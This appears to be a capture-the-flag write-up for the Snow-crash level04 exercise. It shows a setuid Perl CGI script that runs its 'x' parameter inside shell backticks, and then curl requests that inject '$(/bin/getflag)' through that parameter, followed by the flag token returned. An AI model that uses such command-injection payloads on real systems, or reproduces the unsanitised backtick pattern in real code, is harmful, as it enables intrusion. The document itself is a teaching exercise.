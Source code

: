 # Snow-crash - level04


* Perl file found, after cat an url commment in script is present
```console
~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
~$ cat ./level04.pl
```
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

* Try to curl it ! And with `x` var query as shown above on the script
```console
~$ curl -v localhost:4747
* About to connect() to localhost port 4747 (#0)
*   Trying 127.0.0.1... connected
> GET / HTTP/1.1
> User-Agent: curl/7.22.0 (i686-pc-linux-gnu) libcurl/7.22.0 OpenSSL/1.0.1 zlib/1.2.3.4 libidn/1.23 librtmp/2.3
> Host: localhost:4747
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sat, 29 Oct 2022 06:29:09 GMT
< Server: Apache/2.2.22 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 1
< Content-Type: text/html
< 
...
~$ curl  localhost:4747?x="test"
test
```

* Injection of getflag command in script perl
```console
~$ curl localhost:4747?x="\`/bin/getflag\`"
~$ curl -v 192.168.56.4:4747?x='$(/bin/getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```